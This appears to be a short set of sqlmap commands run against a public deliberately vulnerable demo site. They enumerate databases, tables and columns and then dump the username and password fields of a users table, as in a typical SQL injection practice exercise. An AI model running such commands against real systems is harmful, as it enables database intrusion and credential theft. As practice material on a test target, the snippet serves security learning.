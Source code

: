 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs 

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables 

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart -T users --columns 

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart -T users -C uname,pass --dump